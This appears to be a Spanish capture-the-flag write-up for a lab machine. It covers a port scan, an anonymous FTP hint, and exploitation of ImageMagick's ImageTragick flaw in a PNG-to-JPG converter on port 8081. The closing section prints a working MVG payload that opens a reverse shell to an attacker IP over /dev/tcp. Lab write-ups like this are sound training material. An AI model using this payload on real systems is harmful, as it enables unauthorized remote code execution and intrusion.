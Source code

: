 
# SCAN

```
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http       nginx 1.14.0 (Ubuntu)

```
# FTP
Podemos logearnos en ftp con anonymous y nos muestra un mensaje:
```
30-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
```


En el puerto 8081 hay un servidor web que sirve una pagina web cuyo objetivo es transformar imagenes con extension .png en .jpg y lo realiza
a traves de una aplicacion que se llama imagemagick que presenta una vulnerabilidad del tipo RCE (Remote Command Execution)

![image](https://user-images.githubusercontent.com/70599089/183709438-49160fa4-c516-4d96-9fb0-c938344cb94e.png)


que se puede explotar con metasploit

No me funciona metasploit

# SIN METASPLOIT

En la pagina PayLoadAllThings se encuentra el siguient payload para imagemagik:
```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/IP/9999 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
con este payload conseguimos un reverse shell para el usuario magician

